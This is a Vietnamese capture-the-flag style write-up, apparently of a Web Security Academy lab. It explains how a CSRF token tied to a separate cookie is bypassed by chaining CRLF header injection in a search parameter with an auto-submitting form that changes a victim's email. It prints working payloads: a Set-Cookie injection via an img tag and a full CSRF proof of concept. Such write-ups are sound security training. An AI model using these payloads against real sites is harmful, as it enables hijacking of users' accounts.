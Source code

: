![image](https://github.com/user-attachments/assets/7bfa8ba3-f573-4b21-a626-368cac64f6fa)

Đọc mô tả thì có thể thấy được rằng challenge 5 này nó khá giống với challenge 4. Nó khác ở cái là lần này nó liên quan đến session =))

![image](https://github.com/user-attachments/assets/383796cc-f505-4e19-9242-711fc04263df)

Tiến hành đổi thử email của user và xem request thì lần này ta có thể thấy nó có thêm `csrfKey`, tôi k biết cái này nó là gì nhưng nhìn tên và format thì có vẻ nó là csrf token nhưng là do 1 framework nào đó gen ra.

Tiến hành đăng nhập vào attacker và thay đổi lại 2 thông tin `csrfkey, csrf` xem sao.

![image](https://github.com/user-attachments/assets/d51d63cf-df57-407b-8be8-27a7b0713fb1)

![image](https://github.com/user-attachments/assets/e7635532-120f-48e3-ad79-e3da7f7f7919)

Đó là thông tin của attacker.

Tiến hành thay vào user.

![image](https://github.com/user-attachments/assets/b49d9615-9550-429d-98a2-b0635b600dae)

Ta đã thay vào rồi v:, xem thử nó có đổi ko nhé.

![image](https://github.com/user-attachments/assets/70613558-a27e-4cef-b543-c4fe293345bd)

Nó đã đổi v:v:.

Tiến hành gen ra poc thôi 

![image](https://github.com/user-attachments/assets/1b82f00e-cc16-4dd2-a9b5-22c3c36731ad)

Ủa vẫn sử dụng poc cũ nhưng tại sao ko thấy cookie v:, chợt nhận ra là cookie nó được trình duyệt quản lí và session nó được server quản lí v:, nên không thể thay đổi thông qua auto submit form bằng mấy cái tag value được.

=)), Hết cứu, vậy còn cách nào khác hay không? Tiến hành xem hết các chức năng của web này xem sao.

![image](https://github.com/user-attachments/assets/461d80e6-5b0a-45ff-8766-4cef331acf30)

Tiến hành test chức năng search thì phát hiện nó có lỗi `crlf injection`. Thì sơ qua lỗi này như sau:

CRLF Injection là một lỗ hổng bảo mật xảy ra khi kẻ tấn công chèn các ký tự Carriage Return (CR, \r) và Line Feed (LF, \n) vào dữ liệu đầu vào, gây ra việc phá vỡ cấu trúc của các tiêu đề HTTP hoặc log. Điều này có thể dẫn đến các cuộc tấn công như HTTP Response Splitting, Log Injection, hoặc XSS, bằng cách tạo ra phản hồi HTTP không mong muốn hoặc ghi dữ liệu sai lệch vào hệ thống.

Còn lại bạn muốn biết thêm thông tin thì cứ google nhé.

Đã biết được lỗi đó rồi thì giờ ta hãy nghĩ đến cách nào có thể thao túng được cookie nhỉ, XSS chứ còn ai trong khoai đất này nữa.

Vậy giờ ta hãy xây dựng 1 exploit chain mini `crlf injection -> xss -> csrf`

**crlf injection + xss**

```
<img src = "https://0aa6009604a830fc805a1c0200bd0055.web-security-academy.net/?search=abc%0d%0aSet-Cookie:%20csrfKey%3dYw7VbHYTaSBWVUKSnLZgFZOrgyIFOgp0;SameSite%3dNone;">
```

**csrf**

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aa6009604a830fc805a1c0200bd0055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="x2zy&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="q9OwBYvkVFzr7P1BXtYiXK0blihuf4fn" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
<img src = "https://0aa6009604a830fc805a1c0200bd0055.web-security-academy.net/?search=abc%0d%0aSet-Cookie:%20csrfKey%3dYw7VbHYTaSBWVUKSnLZgFZOrgyIFOgp0;SameSite%3dNone;">
  </body>
</html>
```

Vậy là thành công giải được challenge này rồi.

![image](https://github.com/user-attachments/assets/65b2d2c6-5b1f-4185-8c35-1395cd67d0a4)
